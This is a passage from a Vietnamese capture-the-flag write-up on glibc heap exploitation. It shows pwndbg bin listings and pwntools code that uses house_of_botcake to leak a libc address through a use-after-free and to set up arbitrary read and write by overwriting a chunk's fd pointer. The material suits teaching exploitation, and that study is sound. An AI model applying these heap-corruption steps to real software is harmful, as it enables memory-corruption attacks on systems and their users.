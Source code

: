 ```cs
pwndbg> bins
tcachebins
0x20 [  7]: 0x55555555cfd0 —▸ 0x55555555d280 —▸ 0x55555555c750 —▸ 0x55555555ce30 —▸ 0x55555555cc90 —▸ 0x55555555caf0 —▸ 0x55555555c6c0 ◂— 0
0x70 [  6]: 0x55555555cb30 —▸ 0x55555555ccd0 —▸ 0x55555555ce70 —▸ 0x55555555d010 —▸ 0x55555555d190 —▸ 0x55555555c6e0 ◂— 0
0x80 [  7]: 0x55555555c8f0 —▸ 0x55555555ca70 —▸ 0x55555555cc10 —▸ 0x55555555cdb0 —▸ 0x55555555cf50 —▸ 0x55555555d200 —▸ 0x55555555c640 ◂— 0
0xd0 [  5]: 0x55555555c170 —▸ 0x55555555be40 —▸ 0x55555555bb10 —▸ 0x55555555b7e0 —▸ 0x55555555b350 ◂— 0
0xf0 [  2]: 0x55555555d080 —▸ 0x55555555c370 ◂— 0
fastbins
0x20: 0x55555555c490 —▸ 0x55555555c5a0 —▸ 0x55555555c8c0 —▸ 0x55555555c960 —▸ 0x55555555cb00 —▸ 0x55555555cca0 —▸ 0x55555555ce40 —▸ 0x55555555cfe0 ◂— ...
0x70: 0x55555555d290 —▸ 0x55555555c4b0 —▸ 0x55555555c5c0 —▸ 0x55555555c7d0 —▸ 0x55555555ced0 —▸ 0x55555555cd30 —▸ 0x55555555cb90 —▸ 0x55555555c9f0 ◂— ...
0x80: 0x55555555c520 —▸ 0x55555555c840 ◂— 0
unsortedbin
empty
smallbins
empty
largebins
empty
```

- tiếp theo ta lại sử dụng ```house_of_botcake``` để có được đọc và ghi tùy ý (đọc lại bài trước để xem kĩ hơn)

- ta sẽ malloc 7 chunk , 2 chunk tiếp theo cho việc gộp chunk và 1 chunk tránh gộp chunk : 

cái for 20 đó là mình muốn dẹp sạch mấy thằng trong bins =)))

```cs
malloc(0,0x100,b'')
malloc(7,0x100,b'')
malloc(8,0x100,b'')


for i in range(7): free(i)
for i in range(20): malloc(9,0x10,b'flag.txt\0')

free(8)

view(8)
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x219ce0
log.info(f'libc: {hex(libc.address)}')
log.info(f'stdout: {hex(libc.address+0x21a780)}')

free(7)
```

- lúc này việc gộp chunk hoàn tất , ta sẽ malloc để tcache lấy đi 1 chunk và free() chunk thứ 8 vào , để khi ta malloc chunk thứ 7 ta có thể overwrite ```fd``` chunk thứ 8

